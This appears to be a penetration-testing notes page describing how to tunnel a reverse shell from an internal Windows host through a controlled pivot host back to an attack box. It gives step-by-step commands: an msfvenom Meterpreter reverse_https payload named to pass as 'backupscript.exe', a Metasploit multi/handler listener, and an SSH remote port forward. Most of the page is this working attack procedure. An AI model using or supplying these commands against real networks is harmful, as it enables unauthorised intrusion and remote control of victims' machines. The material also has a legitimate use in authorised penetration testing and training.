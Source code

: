 -- -
Presented as a way to get a reverse shell from an internal host to your attack host that is not connected to the internal network directly. You will be tunneling the reverse shell through a pivot host you control. 
### Steps
1. Create payload for reverse shell from target internal host to the pivot host
2. File transfer payload to pivot host, then to the target internal host
3. Setup listener on attack host
4. Setup port forward from pivot box to attack box
5. Execute payload on target internal host, tunnel should send the shell back to your listener on your attackbox
### Execution
1. Create the payload on attack box:
```bash 
msfvenom -p windows/x64/meterpreter/reverse_https lhost=<pivotbox internal ip> lport=8080 -f exe -o backupscript.exe
```
2. [[Dark Arts/File Transfer/~Home|File Transfer]] payload to pivot box, and then to the target internal host.
3. Setup attack box listener
```bash
msfconsole
use exploit/muli/handler
set lhost 0.0.0.0
set lport 8000
run
```
4. Setup remote port forward, from attack box
```bash
# -vN: verbose, no login prompt
# -R: Asks pivot box to listen on port 8080 and forward traffic to our attack host on port 8000
ssh -R <pivot host ip>:8080:0.0.0.0:8000 <user>@<pivot IP> -vN
```
5. Execute the payload on the internal target host, you should get a shell on your meterpreter listener. 